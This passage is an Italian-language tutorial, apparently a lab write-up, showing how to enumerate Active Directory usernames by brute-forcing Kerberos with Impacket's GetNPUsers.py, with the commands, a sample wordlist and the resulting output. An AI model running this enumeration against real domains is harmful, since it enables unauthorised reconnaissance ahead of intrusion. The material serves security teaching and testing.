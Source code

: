 Kerberos possiede un database dei vari utenti del dominio e noi possiamo richiedere un ticket per conto di un utente generico. Quest'azione fallirà la maggior parte delle volte perchè Kerberos ovviamente impedisce che vengano chiesti ticket per conto di altri, tramite uno step di Pre-Authentication. 
E paradossalmente, questo ci agevola! Vediamo perchè.

Osserviamo cosa succede se noi tentiamo di richiedere un ticket per un utente che non esiste:

```bash
GetNPUsers.py ace.local/nonexistentuser -no-pass -dc-ip dc
Impacket v0.10.1.dev1+20220711.165137.65ff31d3 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for nonexistentuser
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Ci viene detto a chiare lettere che l'utente per il quale abbiamo chiesto il ticket non esiste.

Proviamo invece a chiedere un ticket per un utente che siamo sicuri esista, Administrator:

```bash
GetNPUsers.py ace.local/Administrator -no-pass -dc-ip dc
Impacket v0.10.1.dev1+20220711.165137.65ff31d3 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Ci viene detto invece che l'utente Administrator non ha l'attributo "UF_DONT_REQUIRE_PREAUTH" settato.

Cosa vuol dire questo? Che noi possiamo quindi scoprire l'esistenza degli utenti eseguendo un bruteforce sul servizio di Kerberos.

Prepariamo un file contenente tutti i nomi che vogliamo provare:
```
Administrator
gianni
paolo
sara
marco
atom
lino
```

E lanciamo GetNPUsers.py:
```
GetNPUsers.py ace.local/ -usersfile users -no-pass -dc-ip dc
Impacket v0.10.1.dev1+20220711.165137.65ff31d3 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User atom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
